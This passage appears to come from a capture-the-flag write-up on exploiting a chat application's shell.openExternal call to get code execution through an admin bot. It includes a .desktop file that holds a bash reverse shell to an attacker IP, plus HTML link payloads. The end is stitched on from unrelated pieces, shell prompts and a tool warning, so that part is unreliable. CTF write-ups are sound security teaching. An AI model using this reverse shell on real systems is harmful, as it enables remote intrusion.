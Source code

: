We can also see also the previous conversation that we extracted from the web API:

![A screenshot of the Admin chat with the developer](/assets/img/stack-the-flags-2022/admin-chat-gui.png)

### Exploitation

To wrap everything we found until now:

- Usage of shell.openExternal(url) which can lead to XSS -> RCE
- We can send messages to the admin user
- We can upload messages to the admin user
- Messages mentioning the usage of Selenium scripts

The only exploitation path we can see is we assume that there is a bot that’s either downloading the files or clicking the urls (or maybe both?).

To achieve RCE, we will trick the bot into opening our malicious `.desktop` file which will contain our reverse shell:

```ini
[Desktop Entry]
Exec=bash -c "bash -i >& /dev/tcp/10.10.14.57/443 0>&1"
Type=Application
```

We will trick the user to open our link, which will be passed to `shell.openExternal`:

```html
<a className="an" open href="LINK">test</a>
```

At this point, we don’t know whether the bot will download the script or not. We can try both approachs.

1. The easy way is just to host the file in a localwebserver.

```html
<a className="an" open href="http://ip:port/pwn.desktop">test</a>
```

2. The other way is to hope that downloads the file.
   > Spoilers: the bot also downloads the file u.u


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname